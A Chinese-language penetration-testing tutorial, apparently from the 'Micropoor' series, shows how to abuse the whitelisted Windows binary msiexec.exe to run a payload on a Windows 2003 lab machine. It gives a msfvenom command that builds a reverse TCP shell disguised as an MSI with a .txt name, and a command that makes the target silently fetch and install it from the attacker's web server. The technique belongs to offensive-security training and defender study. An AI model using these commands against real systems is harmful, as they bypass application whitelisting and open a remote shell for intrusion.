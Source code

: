 **注：**请多喝点热水或者凉白开，身体特别重要。

### Msiexec简介：

Msiexec 是 Windows Installer 的一部分。用于安装 Windows Installer 安装包（MSI）,一般在运行 Microsoft Update 安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于 Windows 2003，Windows 7 等。

**说明：**Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。

### 基于白名单Msiexec.exe配置payload：

Windows 2003 默认位置：

```bash
C:\WINDOWS\system32\msiexec.exe
C:\WINDOWS\SysWOW64\msiexec.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003

### 配置攻击机msf：
![](/img/2649cf5ad568984ff20e46111fa98b12.jpg)


### 配置payload：

```bash
msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f msi > Micropoor_rev_x64_53.txt
```
![](/img/5c011fcb99c3411ae97fb78affcca15d.jpg)

![](/img/69b03297f582100971130f6ac6a9e1e4.jpg)

### 靶机执行：

```bash
C:\Windows\System32\msiexec.exe /q /i http://192.168.1.4/Micropoor_rev\_x64_53.txt
```
![](/img/39acc13b2f9da5473510eed6d26c74a1.jpg)

![](/img/c70a2131fc4a5392c8405806438ca269.jpg)

![](/img/7f9e95b7d3fa9393cd1e6a4978294430.jpg)

>   Micropoor
